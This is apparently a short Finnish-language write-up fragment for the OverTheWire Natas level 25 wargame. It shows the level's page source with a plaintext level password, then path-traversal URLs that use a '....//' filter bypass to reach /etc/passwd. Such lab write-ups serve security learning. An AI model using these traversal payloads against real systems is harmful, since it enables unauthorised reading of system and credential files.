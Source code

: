 ```
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<br />
<b>Warning</b>:  include(/var/www/natas/natas25): failed to open stream: No such file or directory in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'language/../' for inclusion (include_path='.:/usr/share/php') in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />
<b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
<div align="right"><h6></h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

---

## UI selain kautta - START HERE;

- http://natas25.natas.labs.overthewire.org/?lang=....//....//
- http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//etc/passwd

Alkuun kokeilin lyhyemmällä, että mitä se antoi, mutta kyllä alkoi pelittääkin ja jopa päästään selvittää se viimeiseen maaliin astikin.